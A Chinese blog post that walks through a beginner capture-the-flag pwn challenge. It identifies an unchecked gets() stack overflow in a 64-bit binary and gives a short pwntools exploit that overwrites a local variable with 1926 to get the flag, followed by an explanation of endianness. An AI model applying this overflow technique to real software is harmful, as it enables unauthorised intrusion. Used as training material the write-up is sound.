 <!--yml
category: 未分类
date: 2022-04-26 14:47:32
-->

# CTF|入门题目when_did_you_born解题思路以个人总结_一个不融化的雪人的博客-CSDN博客

> 来源：[https://blog.csdn.net/skyattractive/article/details/106461710](https://blog.csdn.net/skyattractive/article/details/106461710)

# CTF|入门题目when_did_you_born解题思路以个人总结

## 解题思路

拿到题目我们放入ubuntu里面通过`file born`（此处born是文件名）
来查看文件信息![在这里插入图片描述](img/403c0f596bb7bddb06f5ef3160c86b07.png)
得到信息：
ELF：文件elf格式
64-bit：64位文件
LSB：文件小端序（什么是小端序个人总结会写）
executable：顾名思义，可执行的文件

接下我们运行下文件`./born` 并过一遍文件流程
![在这里插入图片描述](img/2c87f1b6e48a1f36ba746504f2aff952.png)
比较简单，输入生日birth 输入名字name 输出文字

将文件拖入反编译工具IDA `F5` 查看伪代码
![在这里插入图片描述](img/76301f06beba9e0f4dd9446cb13c0ce2.png)
得到伪代码后需要特别关注v4、v5两个变量的空间的大小
代码中间有个gets()函数，没有对用户输入的v4做限制，很可能被利用来栈溢出
同时，我们也得到了得到flag的方法：
函数希望v5的值为1926这样就可以cat flag，但是第一次输入的时候又不能输入1926，所以我们的思路是：**通过输入v4后造成gets函数的栈溢出，将第一次v5的值覆盖成1926就可以得到flag了**
总体思路比较简单

双击v4进入几个变量在栈中的位置‘
![在这里插入图片描述](img/1d92a249f026dad1d641c613f8a2ee43.png)
可以看到v4和v5之间相差8个距离我们需要填充八个垃圾数据，然后到v5的位置，将v5填充为1926，就可以得到flag了

编写exp

```
from pwn import*
p = remote("124.126.19.106",36887)

payload = 'a'*8 + p64(1926)

p.recvuntil("What's Your Birth?")
p.sendline('1925')
p.recvuntil("What's Your Name?")
p.sendline(payload)

p.interactive() 
```

运行得到flag
![在这里插入图片描述](img/5ade1e6aff7f8f4585e4af6068ba0b75.png)

## 个人总结

**大端序和小端序**
这两种是其实指字节的存储的顺序，如果数据都是单字节的，那怎么存储无所谓了，但是对于多字节数据，比如int，double等，就要考虑存储的顺序了。

大端序：**数据的高位字节存放在地址的低端 低位字节存放在地址高端**
小端序：**数据的高位字节存放在地址的高端 低位字节存放在地址低端**

字节的高位与低位
举个例子，int a = 0x12345678 ; 那么左边12就是高位字节，右边的78就是低位字节，从左到右，由高到低，（注意，高低乃相对而言，比如56相对于78是高字节，相对于34是低字节）

地址的高端与低端
0x00000001
0x00000002
0x00000003
0x00000004
从上倒下，由低到高，地址值小的为低端，地址值大的为高端。

看看两种方式如何存储数据，假设从地址0x00000001处开始存储十六进制数0x12345678，那么

Big-endian 如此存放(按原来顺序存储)
0x00000001 – 12
0x00000002 – 34
0x00000003 – 56
0x00000004 – 78

Little-endian 如此存放(颠倒顺序储存)
0x00000001 – 78
0x00000002 – 56
0x00000003 – 34
0x00000004 – 12

**一个很好的记忆方法是**，大端序是按照数字的书写顺序进行存储的，而小端序是颠倒书写顺序进行存储的。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）